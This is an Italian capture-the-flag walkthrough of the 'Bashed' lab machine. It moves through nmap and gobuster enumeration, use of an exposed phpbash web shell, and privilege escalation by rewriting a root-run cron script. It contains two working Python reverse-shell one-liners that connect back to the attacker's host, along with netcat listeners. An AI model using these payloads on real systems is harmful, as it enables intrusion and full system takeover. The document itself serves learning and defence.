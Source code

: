 ** Author: Noto La Diega Alessandro ** 

** TARGET: 10.10.10.68 **

# INFORMATION GATHERING #

Iniziamo con un scan base di nmap
└─# [[Nmap]] -sC -sV -p- 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:19 EDT
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.60% done; ETC: 09:19 (0:00:36 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.76 seconds

# ENUMERATION

Analizzando la pagina vediamo che il sito è in php e sembra rimandare a questa pagina github:
https://github.com/Arrexel/phpbash

Proviamo a trovare altre path del sito tramite [[Gobuster]]:
```Bash 

┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u http://10.10.10.68 -t 10 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/05 09:29:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
Progress: 2172 / 81644 (2.66%)^Z
zsh: suspended  gobuster dir -u http://10.10.10.68 -t 10 -w 
```

Nella path /dev/troviamo phpbash.php che semmbre essere una shell in php 

# EXPLOITATION


Scopriamo che siamo utenti www-data e che il sistema operativo è 
Linux bashed 4.4.0-62-generic 83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

Ci mettiamo in ascolto con nc sulla porta 4444
```
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...nc -nvlp 4444
```

Sulla macchina target vediamo se è installato pyhton
which python

utilizziamo questa stringa per ottenere sun revshell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.27",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'

>mettiamo il nostro ip e la porta sulla quale siamo in ascolto 

Otteniamo cosi una shell

```bash

┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 35064
/bin/sh: 0: can't access tty; job control turned off
$ ls      
html
$ 
```

Ci muoviamo fino alle /home e otteiamo la flag

# PRIVESC 

Vediamo con sudo -l se possiamo eseguire qualcosa con privilegi da root

```bash 
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel$ 
```

Dalla ultima stringa possiamo vedere che come utente www-data possiamo eseguire programmi come utente scriptmanager senza password.
Enumerando ulteriormente possiamo vedere che tutte le cartelle sono di proprietà root tranne la directory script che è di proprietà di scriptmanger

```bash

www-data@bashed:/$ ls -la
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            174 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 May  5 06:18 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 173 root          root              0 May  5 06:18 proc
drwx------   3 root          root           4096 Jun  2  2022 root
drwxr-xr-x  18 root          root            520 May  5 06:25 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 May  5 06:18 sys
drwxrwxrwt  10 root          root           4096 May  5 07:02 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
www-data@bashed:/$ cd scripts/
bash: cd: scripts/: Permission denied
www-data@bashed:/$ ls
```

con il comando seguente cambiamo utente in scriptmanager

```bash
www-data@bashed:/$ sudo -i -u scriptmanager
scriptmanager@bashed:~$ 
```

Nella cartella script troviamo due file 

```
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

È un semplice programma Python che scrive nel file test.txt.
Tuttavia, abbiamo visto nell'immagine precedente che test.txt è in esecuzione come root! Anche l'esecuzione del programma python sembra essere pianificata poiché l'ora dell'ultimo accesso al file test.txt è molto recente.
In effetti, lo script sembra essere eseguito ogni minuto!
Probabilmente è un cron job di proprietà di root.
Perché questa è una grande notizia per noi in quanto se cambio il contenuto nel file test.py per inviare una shell inversa, quella shell inversa verrà eseguita come root!


Prima cosa mi metto in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 5555
listening on [any] 5555 ...
```

modifico con nano il file .py con la shell inversa in python che segue:

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.30”,5555)) 
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);

Ottenaimo cosi un shell da root

```bash
┌──(rot㉿kali)-[/home/kali]
└─# nc -nvlp 5555    
listening on [any] 5555 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 42068
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# LESSON LEARN

1. Lo sviluppatore non avrebbe dovuto disporre di una web shell che consentisse pubblicamente l'accesso al suo sistema.
2. Una configurazione errata delle autorizzazioni può portare a conseguenze disastrose. Perché l'utente daemon web (www-data) è stato autorizzato a diventare un utente più privilegiato (scriptmanager)? Allo stesso modo, perché uno script creato da un utente non root (test.py) è stato eseguito come root? Questi sono noti come errori di configurazione della sicurezza. 
3. Lo sviluppatore non deve disporre di directory sensibili pubblicamente accessibili disponibili sul proprio server, in quanto come dimostrato è stata facilmente trovata da gobuster.
